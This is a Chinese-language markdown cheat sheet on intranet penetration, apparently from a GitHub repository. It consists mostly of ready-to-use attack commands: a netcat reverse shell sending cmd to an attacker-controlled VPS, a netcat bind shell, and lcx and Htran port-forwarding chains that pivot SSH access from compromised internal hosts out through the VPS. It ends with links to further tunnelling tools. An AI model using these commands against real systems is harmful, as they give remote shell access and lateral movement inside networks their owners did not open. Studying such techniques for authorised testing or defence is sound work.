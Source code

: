 # 内网渗透

## 相关工具
> https://github.com/knownsec/PortForward  
> nc  
>> ```bash
>> #;=================================  
>> #;方法一 NC反向连接
>> #; A外网 无法访问 内网B 【A为攻击者处于外网】, B内网 可以访问 外网A  
>> #;VPS上执行  
>> nc -nvlp 7777  
>> #;目标主机执行  
>> nc -e cmd vps_ip 7777  
>> #;=================================  
>> #;方法二  NC正向连接  
>> #; A内网 可以访问 外网B 【A为攻击者处于内网】, B外网 不能访问 内网A  
>> #; 内网A上执行  
>> nc –l –p 5555 –e cmd.exe  
>> #; 外网B上执行  
>> nc –nvv 192.168.0.226 5555  
>> #;  
>> ```  
> Lcx  
>> ```bash
>> #;Linux工具名称： portmap
>> #;=================================  
>> #;方法二  Lcx正向连接  
>> #; A外网 可以访问 B，B内网 可以访问 C，A不能访问 C   
>> #; 内网B上执行  
>> lcx.exe –slave 192.168.0.226 7777 192.168.32.132 22  
>> #; 外网A上连接7777相当于连接访问C  
>> ssh root@192.168.0.226 -p 7777  
>> #;  
>> ``` 
> Htran  
>> ```bash
>> #;=================================  
>> #;转发本地端口，相当于端口映射  
>> #;将内网192.168.1.10的22端口映射到本地7777  
>> Htran.exe -p -tran 7777 192.168.1.10 22  
>> ```
> Netcat  

## 使用场景
### 场景一
#### 场景描述
1. 本机处于内网，可访问外网
2. 目标主机处于内网，可访问外网
3. 外网存在一台服务器
#### 使用方法
```bash
#;=================================  
#;方法一 使用Lcx  
#;VPS上执行  
lcx.exe –listen 7777 5555  
#;目标主机执行  
lcx.exe –slave vps_ip vps_port local_ip local_port  
#;本地主机连接VPS的5555  
ssh root@127.0.0.1 -p 5555  
#;  
#;=================================  
#;方法二 使用Htran  
#;VPS上执行  
#;本地监听8888，并将8888的流量转发到9999  
Htran.exe -p -listen 8888 9999  
#;目标主机上执行  
#;将本机的22端口转发到VPS的8888  
Htran.exe -p -slave vps_ip 8888 127.0.0.1 22  
#;本地主机访问VPS的9999端口  
ssh root@vps_ip -p 9999  
#;  
#;=================================  
```


## 参考文献
> https://xz.aliyun.com/t/6349  
> https://www.freebuf.com/articles/web/170970.html  

## 相关仓库
> https://github.com/sensepost/reGeorg  
> https://github.com/idlefire/ew  
> https://github.com/knownsec/PortForward  
> https://github.com/C726/PortForward  
> https://github.com/fatedier/frp  